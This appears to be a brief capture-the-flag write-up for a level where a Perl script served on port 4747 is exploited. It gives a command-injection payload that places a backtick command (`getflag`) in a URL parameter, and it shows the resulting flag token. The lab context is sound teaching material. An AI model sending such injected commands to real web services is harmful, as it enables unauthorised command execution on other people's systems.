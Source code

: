 ### Exploit

Some Perl scripting going on in this stage... First, go to your localhost:4747, as indicated by the script. 

> http://[YOUR_IP_ADRESS]:4747/?x=`getflag`

> Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
